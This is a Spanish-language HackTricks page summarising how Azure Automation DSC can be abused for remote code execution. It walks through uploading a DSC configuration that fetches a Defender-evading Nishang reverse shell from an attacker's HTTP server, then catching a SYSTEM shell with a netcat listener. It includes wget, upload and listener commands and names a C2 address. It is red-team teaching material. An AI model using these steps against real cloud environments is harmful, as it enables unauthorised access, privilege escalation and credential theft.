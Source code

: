 # Az - Estado de Configuración RCE

{% hint style="success" %}
Aprende y practica Hacking en AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

**Consulta la publicación completa en: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### Resumen de la Preparación de la Infraestructura del Servidor Remoto (C2) y Pasos

#### Visión general
El proceso implica configurar una infraestructura de servidor remoto para alojar un payload modificado `Invoke-PowerShellTcp.ps1` de Nishang, llamado `RevPS.ps1`, diseñado para evadir Windows Defender. El payload se sirve desde una máquina Kali Linux con IP `40.84.7.74` utilizando un servidor HTTP Python simple. La operación se ejecuta a través de varios pasos:

#### Paso 1 — Crear Archivos
- **Archivos Requeridos:** Se necesitan dos scripts de PowerShell:
1. `reverse_shell_config.ps1`: Un archivo de Configuración de Estado Deseado (DSC) que obtiene y ejecuta el payload. Se puede obtener en [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Un script para publicar la configuración en la VM, disponible en [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Personalización:** Las variables y parámetros en estos archivos deben adaptarse al entorno específico del usuario, incluidos nombres de recursos, rutas de archivos e identificadores de servidor/payload.

#### Paso 2 — Comprimir Archivo de Configuración
- El archivo `reverse_shell_config.ps1` se comprime en un archivo `.zip`, preparándolo para transferirlo a la Cuenta de Almacenamiento de Azure.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Paso 3 — Establecer Contexto de Almacenamiento y Subir
- El archivo de configuración comprimido se carga en un contenedor de almacenamiento de Azure predefinido, azure-pentest, utilizando el cmdlet Set-AzStorageBlobContent de Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Paso 4 — Preparar Kali Box
- El servidor Kali descarga el payload RevPS.ps1 desde un repositorio de GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- El script se edita para especificar la VM de Windows objetivo y el puerto para el shell inverso.

#### Paso 5 — Publicar Archivo de Configuración
- Se ejecuta el archivo de configuración, lo que resulta en que el script de shell inverso se implemente en la ubicación especificada en la VM de Windows.

#### Paso 6 — Alojar Carga Útil y Configurar Escucha
- Se inicia un SimpleHTTPServer de Python para alojar la carga útil, junto con un escuchador de Netcat para capturar las conexiones entrantes.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- La tarea programada ejecuta la carga útil, logrando privilegios a nivel de SISTEMA.

#### Conclusión

La ejecución exitosa de este proceso abre numerosas posibilidades para acciones adicionales, como la extracción de credenciales o la expansión del ataque a múltiples VM. La guía fomenta el aprendizaje continuo y la creatividad en el ámbito de la Configuración de Estado de Azure Automation DSC.

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
